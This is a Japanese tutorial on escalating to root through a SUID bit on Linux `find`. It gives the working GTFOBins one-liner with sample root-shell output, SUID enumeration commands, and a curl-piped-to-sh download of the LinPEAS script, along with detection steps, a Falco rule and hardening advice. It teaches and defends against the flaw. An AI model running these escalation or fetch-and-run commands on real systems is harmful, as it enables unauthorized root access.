



## TL;DR

`find` バイナリに **SUID ビット** が設定されている場合、任意のユーザーが 1 コマンドで root シェルを取得できます。

```bash
find . -exec /bin/sh -p \; -quit
```

この記事では「*なぜ*有効なのか」「*どうやって*検知するか」「*守るために*何をすべきか」を解説します。

---

## SUID とは

**SUID（Set User ID）** は Linux の特殊なファイルパーミッションです。
通常、プログラムは**実行したユーザーの権限**で動きます。
SUID が設定されていると、プログラムは**ファイルのオーナーの権限**で動作します（実行者にかかわらず）。

```
-rwsr-xr-x 1 root root /usr/bin/find
      ^
      └─ 's' が SUID が有効なことを示す
```

| パーミッション | 意味 |
| :--------- | :------ |
| `rws`（オーナー） | 読み書き実行可; **SUID 有効** |
| `rwx`（オーナー） | 読み書き実行可; SUID **無効** |

> **SUID が必要な正当なケースは？**
> `passwd`（`/etc/shadow` への書き込みに root が必要）や `ping`（raw ソケットアクセスが必要）が代表例です。
> 問題は `find`・`bash`・`python` など強力なユーティリティに誤って SUID が付与された場合です。

---

## 攻撃の仕組み



ポイント：`find` は SUID により **root として実行**され、`-exec` で起動した `/bin/sh` は find の**子プロセスとして root の権限を引き継ぎます**。

---

## ラボ環境のセットアップ

テスト VM で設定ミスを再現できます：

```bash
# ⚠️ 本番環境では絶対に実行しないこと
# 設定ミスを模倣するため root として実行
chmod u+s /usr/bin/find

# ビットが設定されたことを確認
ls -la /usr/bin/find
# 期待値: -rwsr-xr-x 1 root root ... /usr/bin/find
```

低権限ユーザーに切り替え：

```bash
su - testuser
id
# uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)
```

---

## Step 1 — SUID バイナリの列挙

権限昇格の最初のステップは SUID バイナリを見つけることです：

```bash
find / -perm -4000 -type f 2>/dev/null
```

| オプション | 意味 |
| :----- | :------ |
| `/` | ファイルシステムのルートから検索 |
| `-perm -4000` | SUID ビットが設定されたファイルにマッチ |
| `-type f` | ファイルのみ（ディレクトリを除く） |
| `2>/dev/null` | "Permission denied" エラーを抑制 |

**出力例：**

```
/usr/bin/find
/usr/bin/passwd
/usr/bin/sudo
/bin/su
```

注目すべきは `/usr/bin/find` です。`passwd`・`su` などの標準的な SUID バイナリは想定内ですが、`find` は通常 SUID を必要としません。

---

## Step 2 — GTFOBins で確認

[GTFOBins](https://gtfobins.github.io/) は権限昇格に悪用できる Unix バイナリのキュレーションリストです。

`find` → **SUID** セクションを参照すると以下のコマンドが示されます：

```bash
find . -exec /bin/sh -p \; -quit
```



---

## Step 3 — エクスプロイト実行

```bash
find . -exec /bin/sh -p \; -quit
```

**各パートの役割：**

| パート | 役割 |
| :--- | :--- |
| `find .` | カレントディレクトリから検索開始 |
| `-exec ... \;` | 各結果に対してコマンドを実行 |
| `/bin/sh` | 起動するシェル |
| `-p` | effective UID を**保持**（root を手放さない） |
| `-quit` | 最初のマッチ後に終了 |

**期待される出力：**

```
$ find . -exec /bin/sh -p \; -quit
# id
uid=1001(testuser) gid=1001(testuser) euid=0(root)
# whoami
root
```

> **`-p` がなぜ重要か？**
> デフォルトでは、real UID と effective UID が異なる場合、`sh` は昇格した権限を**破棄**します（セーフティ機能）。
> `-p` フラグはこの動作を無効化し `euid=0` を維持することで、シェルを完全な特権状態にします。

---

## 仕組みの解説：権限の継承



SUID バイナリが `exec` で別プログラムを起動すると、**effective UID は子プロセスに引き継がれます**。これが SUID の悪用を危険にする核心的なメカニズムです。

---

## 実際のコンテキスト

このテクニックは CTF マシンや実際のペネトレーションテストで頻繁に登場します。典型的なシナリオ：

- デプロイスクリプト用に開発者が `find` に SUID を設定し、削除を忘れる
- 設定ミスのある Docker イメージが `find` の SUID 付きで配布される
- 古いシステムで SUID の設定監査が行われていない

自動列挙ツール：

```bash
# LinPEAS
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh

# 手動
find / -perm -4000 -type f 2>/dev/null | xargs ls -la
```

---

## 検知（ブルーチーム向け）

### SUID 変更の監視

```bash
# ベースライン：現在の SUID ファイルを記録
find / -perm -4000 -type f 2>/dev/null > /var/log/suid_baseline.txt

# 定期チェック：ベースラインと比較
find / -perm -4000 -type f 2>/dev/null > /tmp/suid_current.txt
diff /var/log/suid_baseline.txt /tmp/suid_current.txt
```

### 注目すべきログイベント

| ソース | 確認すること |
| :----- | :------------ |
| `/var/log/auth.log` | 予期しない `uid=0` セッション |
| auditd | SUID バイナリへの `execve` 呼び出し |
| EDR / Falco | プロセス系譜：`find` → euid=0 の `sh` |

### Falco ルール例

```yaml
- rule: SUID Shell Spawn via Find
  desc: find with SUID spawning a shell
  condition: >
    spawned_process and
    proc.name = "sh" and
    proc.pname = "find" and
    user.uid != 0
  output: "SUID shell spawned by find (user=%user.name command=%proc.cmdline)"
  priority: CRITICAL
```

---

## 対策

```bash
# find から SUID ビットを削除
chmod u-s /usr/bin/find

# 確認
ls -la /usr/bin/find
# 期待値: -rwxr-xr-x ('s' がない)
```

**一般的なハードニングチェックリスト：**

- [ ] 定期的に `find / -perm -4000` を実行し、予期しないエントリを確認する
- [ ] 非システムパーティション（`/tmp`・`/home`）に `nosuid` マウントオプションを使用する
- [ ] ファイル整合性監視を実装する（Tripwire・AIDE）
- [ ] 最小権限の原則を適用する — 強力なユーティリティへの SUID を避ける

```bash
# 例: /tmp を nosuid でマウント
mount -o remount,nosuid /tmp
```

---

## まとめ

- **SUID** はバイナリを呼び出したユーザーではなくオーナー（通常 root）として実行させる
- `find` が `-exec` で任意コマンドを実行できるため、SUID 付きの場合は特に危険
- `/bin/sh -p` の `-p` フラグが root 権限の破棄を防ぐ重要な要素
- SUID バイナリを定期的に監査する — `passwd`・`su`・`sudo`・`ping` 以外は要調査

---

## 参考文献

- [GTFOBins: find](https://gtfobins.github.io/gtfobins/find/)
- [HackTricks: SUID](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid)
- [Linux man page: find(1)](https://man7.org/linux/man-pages/man1/find.1.html)
- [Linux man page: sh(1)](https://man7.org/linux/man-pages/man1/sh.1p.html)
- [Falco: Runtime Security](https://falco.org/)
